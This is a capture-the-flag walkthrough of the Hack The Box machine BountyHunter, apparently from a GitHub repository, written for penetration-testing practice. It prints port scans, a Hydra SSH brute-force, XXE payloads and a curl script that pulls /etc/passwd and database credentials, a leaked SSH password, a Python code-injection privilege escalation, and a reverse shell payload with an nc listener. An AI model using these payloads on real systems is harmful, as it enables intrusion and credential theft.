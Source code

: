 # BountyHunter
### A demonstration walkthrough of a pen test process using HTB's B.o.u.n.t.y-H.u.n.t.e.r with some normal dead ends as an example.  

Basic scan of all ports 
```
nmap -p- 10.10.11.100
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.10.11.100
nikto -h 10.10.11.100
```
Interesting Results (NMAP): Running OpenSSH 8.2p1 and Apache httpd 2.4.41 on Ubuntu  
Interesting Results (NIKTO):  OSVDB-3093: /db.php  

**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\nbountyhunter' > usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > passwords
hydra -L usernames -P passwords -e nsr ssh://10.10.11.100 
```
Check out related the CVEs
```
https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html
searchsploit apache httpd
```
```
https://www.cvedetails.com/vulnerability-list/vendor_id-97/product_id-585/Openbsd-Openssh.html
searchsploit openssh
```
**Decision (NMAP):** Software is relatively current, no standout CVEs that allow remote access, so we will move on.  
**Decision (NIKTO):** The OSVBD has been superseded by CVE.  Not much to work with except `php` is being used.

Fire up dirb (command line) or dirbuster (GUI) to find any unlinked files with common names.  
Normally we would poke the web server while dirb or dirbuster does it thing
```
dirb http://10.10.11.100 /usr/share/dirb/wordlists/small.txt
```
```
dirbuster 
```
Interesting Results (DIRB):  The `/*.php` files and `/resources/README.txt`

**Decision:** Not much to do with the php.  The `/resources/README.txt` provides an interesting check list and *indications that this is a development box*.

Start ZAP.  Main menu under `Web Application Analysis`.  A good basic start is to use `manual explore` and enter data into any forms you see.  Then click `Attack` on the `Automated Scan` tab. The attack will run for a couple minutes.  On the `Alerts` tab clicking the `SQL Injection` alert will show the following image.  
![zap-bountyhunter-scan](/images/zap-bountyhunter.png)

**Scan results decisions**
Discard the results that might allow us to attack users of this site. `Cross-Domain` `Anti-CSRF` `X-Frame-Options` `X-Contetn-Tpye-Options` `Cache-control` `Vulnerable JS`  We are only interested in attack the site not leveraging the site to attack its users.  
Discard `Private IP Disclosure`.  Real world this would be interesting, but on Hackthebox the attack scope is just 10.10.11.100.  
`Directory Browsing` gives us the same result as `dirb`.  
`SQL Injection` is the only high priority alert.  This finding conflicts with the README.txt that states the database is not connected.  Also, the response states *If DB were, would have added:*  Looking at the attack Zap added ' OR 1=1 --' to what looks like the base64 encoded port data.  

**DEAD END:**  SQL injection on the portal form.  

**Interesting** The post data is base64 encoded XML.  

### Fire up Burpsuite and start playing with website
`Proxy` tab then click `Open Browser` enter URL `10.10.11.100` and turn `Intercept off`  
Click on the visible links in the browser to populate the `Target/SiteMap` tab.  

Interesting:  Only `/tracker_*.php` takes parameters and the response echos the input parameters.  
The following screenshot of Burp shows the POST request data is base64 encoded XML.

![burp screenshot](/images/tracker-request.png)

###  php and xml is XXE possible? [OWASP XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

In Burp, send php request to repeater.  
Use CyberChef to Base64 then URL encode new POST data attempting XXE.  

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe 'yoyo ma'> ]>
<bugreport>
  <title>&xxe;</title>
  <cwe></cwe>
  <cvss></cvss>
  <reward></reward>
</bugreport>
```
![chef-encoding-setup](/images/chef-encoding-setup.png)

Paste the encoding back into Burp.  
![xxe-trial](/images/xxe-trial.png)

## Success!

Try a real attack to retrieve `/etc/passwd`  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]><bugreport><title>&xxe;</title><cwe></cwe><cvss></cvss><reward></reward></bugreport>
```
![xxe-password-return](/images/xxe-password-return.png)

Only one user has a login shell available `development`  

Try a  real attack to retrieve `/db.php`  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">]><bugreport><title>&xxe;</title><cwe></cwe><cvss></cvss><reward></reward></bugreport>
```
![xxe-dbphp-return](/images/xxe-dbphp-return.png)

The above process automated as a script.  *Note:* if using the HTB's PWNbox.  You do not have html2markdown installed.  Cut/Paste the curl return into CyberChef to see the interesting bits. 

```
    #!/bin/bash
    data='<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]><bugreport><title></title><cwe></cwe><cvss></cvss><reward>&xxe;</reward></bugreport>'
    user=$(bash -c "curl -X POST --data-urlencode \"data=$(echo $data | base64 -w 0)\" 'http://10.10.11.100/tracker_diRbPr00f314.php'  | html2markdown | tail -n 2 | head -n 1 | base64 -d" 2>/dev/null | grep '/bin/bash$' | awk -F':' '{print $5}' | cut -d , -f1 | tail -n 1 | tr '[:upper:]' '[:lower:]') 
    data='<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">]><bugreport><title></title><cwe></cwe><cvss></cvss><reward>&xxe;</reward></bugreport>'
    password1=$(bash -c "curl -X POST --data-urlencode \"data=$(echo $data | base64 -w 0)\" 'http://10.10.11.100/tracker_diRbPr00f314.php'  | html2markdown | tail -n 2 | head -n 1 | base64 -d" 2>/dev/null | grep -i '$dbpassword' | cut -d '"' -f 2)

    echo "Got SSH Creds ! Username= $user , Password= $password1"
```

Login with user credentials (Assuming password reuse)  
```
ssh development@10.10.11.100
```
`password = m19RoAU0hP41A1sTsq6K`


#### Get user the user flag

```
cat ~/user.txt
```

**DEAD END:** Enumerate privileges you already have on the system
```
find / -perm -4000 2>/dev/null
```
Nothing popped out to me.  Maybe try sudo?
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
 ```
#### Example ticket file root.md

```
# Skytrain Inc
## Ticket to Ride
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False
```
```sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py```
root.md
Show who you are
```id```

## Get Root flag!

```cat /root/root.txt```

Optional method: Reverse shell  
Start listener on attacker box  
```nc -lvnp 9999```

```
set ATTACK_IP="10.10.11.100"
set ATTACK_PORT=9999
cat root.md
# Skytrain Inc 
## Ticket to abc 
__Ticket Code:__
**102+ 10 == 112 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((os.environ.get("ATTACK_IP"),int(os.environ.get("ATTACK_PORT"))));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```

